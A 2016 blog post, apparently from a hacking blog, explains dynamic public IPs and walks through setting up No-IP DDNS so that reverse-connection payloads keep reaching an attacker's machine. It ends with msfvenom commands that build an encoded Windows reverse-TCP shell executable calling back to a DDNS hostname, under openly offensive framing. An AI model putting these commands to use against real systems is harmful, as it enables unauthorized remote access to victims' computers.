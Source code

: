 ```yaml
---
date: 'Sun Mar 06 2016 13:58:02 GMT+0530 (India Standard Time)'
title: Use DDNS to Deal with Your Dynamic Public IP
tags:
  - Hacking
  - DDNS
  - Metasploit
---
```


Many of us have an internet connection with dynamic public IP. That poses some problems if you want to use that connection to host a website, or maybe for hackers like us, to hack using reverse connection payloads. I'm going to discuss in this post how you can overcome that using Dynamic DNS or DDNS. But I'm getting ahead of myself, so let me start by explaining what is public IP and what are some problems you can encounter if you have a dynamic one.


## Understanding Dynamic Public IP Address


Public IP is the IP that's visible to machines outside your local network. For example if two or more machines are connected through a router (maybe through WiFi) to the internet, then the machines are in a local network, as well as both of them are connected to the Internet. Each of them has a locally unique private IP address, not globally. For connecting to the Internet they use the router's public IP.

IP addresses can be static or dynamic. Most of the ISPs provide dynamic public IP, that means it changes from time to time, contrary to the static one, which remains fixed. You can check what's your public IP by googling 'What is my IP', Google will tell you.

Having a dynamic IP address is a hindrance to hacking using reverse connection payloads. Reverse connection payloads, such as _android/meterpreter/reverse_tcp_, store the host IP address, i.e. the IP address of the attacker machine. When it gets executed, it connects back to the host machine by the reference of that host IP. But as dynamic IP keeps changing from time to time, you won't be able to use a payload for a long time because  after some time the IP stored inside it won't point to your machine anymore. That's a problem. A major one. This is where DDNS comes in.


## Dynamic DNS aka DDNS to the Rescue


We all know what DNS or Domain Naming System is, it's the system which binds an IP to a domain name. When you try to connect to a domain name, for example opening www.google.com on a  browser, the request first goes to a DNS server, which resolves the domain name into an IP, and then the browser gets the Google homepage from that IP. Similarly you can get a domain name for your machine and put that domain name in the place of HOST IP address in your payload. But the problem of your IP being dynamic still remains.

Here DDNS comes to the rescue. DDNS servers update the DNS record of your machine continuously, so that even for dynamic IP machines the domain name resolves to the correct IP, always.


## Setting up DDNS using No-IP

There are many DDNS providers, I'm going to use No-IP which is one of them.

### Step 1: Creating a No-IP account

Head to https://www.noip.com and create a free account there.

### Step 2: Adding a Hostname in No-IP

When you get to the dashboard, go to Dynamic DNS -> Hostnames and add a hostname of your choice from there. You can also choose a domain name from a list there. The address you will get is hostname.domainname. Such as I chose the default domain name ddns.com and the hostname I entered is skulltech. So the address I got is 'skulltech.ddns.com'. Refer to the screenshots below for reference.

![step-1](/images/posts/step-11.png)
![step-2](/images/posts/step-21.png)


### Step 3: Install the Dynamic DNS Update Client


Now you'll need to install a program on your computer and set it up. So that it connects to No-IP server frequently and updates the DNS record. Download the update client from https://www.noip.com/download . It's a tar.gz archive, extract it using the following command
```console
$ tar -xzvf noip-duc-linux.tar.gz
```

![screenshot-from-2016-12-18-14-24-36](/images/posts/screenshot-from-2016-12-18-14-24-36.png)


After that change working directory to the newly extracted folder and run the following command to install the No-IP client.

```console
$ make install
```

![screenshot-from-2016-12-18-14-38-06](/images/posts/screenshot-from-2016-12-18-14-38-06.png)


After that the program will ask for your No-IP username and password.


### Step 4: Configure the Client and Run It


Run the following command to launch the configuration wizard of the No-IP client. It will ask you for your credentials, as well as which hostnames you want to update. Select the hostname (or hostnames) that you want to associate with this computer in that step.

```console
$ noip2 -C
```

When you are done with the configuration, just run **noip2** in the terminal to start the client, it will run in the background and keep updating your DNS record.

```console
$ noip2
```

![screenshot-from-2016-12-18-14-49-56](/images/posts/screenshot-from-2016-12-18-14-49-56.png)


## Using DDNS hostname in Payloads


You can create a basic reverse shell payload for windows and get a shell on a remote computer on running it in that computer. Refer to this tutorial by Offensive Security for that, I won't be going into details how to do that. Assuming that you already know how to create these payloads using _msfvenom_ (if you don't check out this tutorial), I'll show you how you can use your DDNS hostname there.

Generally we run a command like this to generate the payload. Here LHOST is the address of the our local machine, in the following example it's _192.168.1.101_

```console
$ msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=192.168.1.101 LPORT=3333 -b "\x00" -e x86/shikata_ga_nai -f exe -o /tmp/1.exe
```

Now that we have a DDNS hostname, pass that as LHOST to msfvenom instead of your IP. So now the command will be

```console
$ msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=skulltech.ddn.com LPORT=3333 -b "\x00" -e x86/shikata_ga_nai -f exe -o /tmp/1.exe
```

Feel free to leave a comment if you face any problem. Happy Hacking! :)
